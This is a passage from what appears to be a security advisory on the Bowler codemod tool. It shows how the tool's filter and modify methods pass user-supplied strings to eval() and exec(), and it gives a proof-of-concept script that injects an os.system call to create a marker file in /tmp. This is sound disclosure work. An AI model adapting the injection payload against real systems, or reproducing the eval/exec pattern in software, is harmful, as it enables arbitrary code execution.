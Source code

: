             def callback(node: Node, capture: Capture, filename: Filename) -> bool:
                return bool(eval(code))  # noqa: developer tool

        filter_callback = cast(Filter, filter_callback)
        self.current.filters.append(filter_callback)
        return self
    ```
    - The `filter` method checks if `filter_callback` is a string.
    - If it's a string, it compiles it using `compile(filter_callback, "<string>", "eval")`, setting the compilation context to `'eval'` for expression evaluation.
    - A callback function is created that executes `eval(code)`, directly evaluating the user-provided string as Python code.
    - **Vulnerability:** `eval(code)` executes arbitrary Python code from the `filter_callback` string.
  - **Modifier Method Analysis:**
    ```python
    def modify(self, callback: Union[str, Callback]) -> "Query":
        if isinstance(callback, str):
            code = compile(callback, "<string>", "exec")

            def callback(node: Node, capture: Capture, filename: Filename) -> None:
                exec(code)

        callback = cast(Callback, callback)
        self.current.callbacks.append(callback)
        return self
    ```
    - The `modify` method checks if `callback` is a string.
    - If it's a string, it compiles it using `compile(callback, "<string>", "exec")`, setting the compilation context to `'exec'` for statement execution.
    - A callback function is created that executes `exec(code)`, directly executing the user-provided string as Python code.
    - **Vulnerability:** `exec(code)` executes arbitrary Python code from the `callback` string. `exec` is more dangerous than `eval` as it can execute full statements.
- Security Test Case:
  - **Filter Vulnerability Test:**
    - Step 1: Create a Python file named `malicious_filter_codemod.py`:
      ```python
      from bowler import Query

      def main():
          malicious_filter = 'os.system("touch /tmp/bowler_filter_pwned") or True'
          Query(['.']).select_root().filter(malicious_filter).write()

      if __name__ == '__main__':
          import os
          main()
      ```
    - Step 2: Run Bowler with the malicious script:
      ```bash
      bowler run malicious_filter_codemod.py -- .
      ```
    - Step 3: Verify the impact:
      ```bash
      ls /tmp/bowler_filter_pwned
      ```
      - Expected result: The file `/tmp/bowler_filter_pwned` should exist, demonstrating arbitrary code execution via `eval()` in `filter()`.
  - **Modifier Vulnerability Test:**
    - Step 1: Create a Python file named `malicious_modifier_codemod.py`:
      ```python
      from bowler import Query
